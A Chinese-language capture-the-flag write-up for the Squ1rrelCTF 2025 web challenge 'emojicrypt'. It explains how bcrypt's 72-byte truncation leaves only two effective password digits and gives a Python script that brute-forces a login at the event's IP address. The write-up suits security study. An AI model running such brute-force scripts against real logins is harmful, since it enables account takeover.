##### tags: `Squ1rrelCTF_2025`
# Squ1rrelCTF 2025 Web : emojicrypt

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

<span class=""></span>

## <span class="red">題目</span>

- ![image](https://hackmd.io/_uploads/SyYJQgeCyl.png)

## <span class="red">解題過程 (After Event)</span>

1. **根據題目給的 ```app.py``` 中，可以看到 flag 獲取方法是成功登入，但是往上面部分 ```/register``` 的 route 看會發現，正常註冊完成系統應該要將隨機生成的密碼寄送至註冊信箱中，但是這個功能並沒有實作**

- ![image](https://hackmd.io/_uploads/SkfpSel01g.png)
- ![image](https://hackmd.io/_uploads/SylSIlg0yx.png)

&emsp;

2. **於是我去查看一下密碼是如何生成，以及登入時是如何比對的，發現了一個問題點， salt 值在 register 時就產生並存放於 DB 中，也就是說 salt 值是 base on username 不影響檢驗結果。然後就會發現再登入驗證時，剩餘的檢驗對象不管是 hash 值還是 checkpw 都是經過 bcrypt 的結果**

- ![image](https://hackmd.io/_uploads/Sy5miRxRyl.png)
- ![image](https://hackmd.io/_uploads/HJLJa0gCJe.png)

&emsp;

3. **而這會導致我們不需要真的讓密碼完全相等，只需要利用 bcrypt 的特性，針對前兩個 bytes 去暴力破解，就能夠獲得與 32 bytes 密碼經過 bcrypt 的結果相同**

- **password_hash = 72bytes(bcrypt 實際會讀取的 bytes) 
= 48bytes(4\*12，EMOJI 佔的) + 22bytes(2\*11，aa 佔的) + 2bytes(密碼佔的)**
- ![image](https://hackmd.io/_uploads/SyGjpyZAJe.png)
- **bcrypt 類似的概念在 maple 寫的 IrisCTF 2023 Web 題中也有遇到**
- **連結：https://blog.maple3142.net/2023/01/09/irisctf-2023-writeups/#babystrechy**

&emsp;

4. **也就是說，實際上僅需要爆破兩位數的值，也就是 0 ~ 99，因為密碼實際有作用的只有前兩個 digits，於是就寫了一個 python script 進行爆破**

    ```python=
    import requests

    url = "http://52.188.82.43:8060/login" # Event online machine

    username = "andy" # From /register

    for pwd in range(100):
        corr_pwd = f"{pwd:02d}"
        req_body = { "username" : username, "password" : corr_pwd }
        response = requests.post(url = url, data = req_body)

        print(f"Trying pwn with password : {corr_pwd}")

        if "squ1rrel" in response.text:
            print("success pwned with password : ", corr_pwd)
            print("flag : ", response.text)
            break
    ```
- ![image](https://hackmd.io/_uploads/H1_hsJW01e.png)
- flag🚩 :  squ1rrel{turns_out_the_emojis_werent_that_useful_after_all}